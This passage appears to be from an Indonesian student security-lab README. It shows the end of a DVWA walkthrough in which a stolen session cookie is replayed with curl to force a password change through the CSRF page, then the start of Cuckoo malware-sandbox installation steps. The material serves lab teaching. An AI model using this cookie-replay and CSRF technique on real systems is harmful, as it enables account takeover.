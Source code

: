 3. AKan muncul alert box, kopi isi dari aler box tersebut. ISinya akan terlihat seperti di bawah ini :
```
security=low; PHPSESSID=3juclcme0enmmhns9t36mi4ij0
```

4. Buka terminal, ketikkan perintah berikut secara berurutan :
```
curl --cookie "security=low; PHPSESSID=3juclcme0enmmhns9t36mi4ij0" --location "http://10.0.1.100/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#" | grep "Password Changed" | tee curl.txt
```
Ket = isi cookie dan location diisi sesuai dengan langkah 1 dan 3

![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/32.PNG)

5. Coba login ke DVWA dengan password yang dirubah. Jika berhasil, sukses


# CUCKOO
## Instalasi
Panduan:
```
Buku Cuckoo Malware Analysis
Video Youtube: Automated Malware Analysis with Cuckoo
```
### Pendahuluan
Pada instalasi Cuckoo ini kami menggunakan dua OS, satu sebagai Host dan satu sebagai Guest. Kami menggunakan Ubuntu versi 16.04 LTS 64bit sebagai Host dan Windows XP SP3 32bit sebagai Guest. Berikut merukapan langkah instalasi kedua OS dan Cuckoo:
1. Instalasi OS Ubuntu di virtualbox seperti tugas 1 dan 2. Kemudian jalankan Linux seperti biasa

2. Aktifkan Shared Files pada Machine > Settings, pilih Shared Folder dan klik tambah shared folder baru. Kemudian akan muncul dialog box, masukkan folder yang akan di share pada folder path, kemudian centang ketiga option(folder merupakan folder utama windows, disini contoh menggunakan Windows 8.1)
![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/33.PNG)

![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/34.PNG)

3. Install Guest Addition CD Image pada Ubuntu, kemudian restart ubuntu setelah selesai

4. Masukkan perintah berikut untuk menambahkan user agar mendapatkan permission untuk melihat isi folder
```
sudo adduser (nama user) vboxsf
```
Restart Ubuntu.

5. Step 2-4 merupakan step optional, berguna jika user telah terlanjur mendownload file iso Windows XP pada OS utama. Step 2-4 akan digunakan pada Host dan Guest OS untuk sharing file.
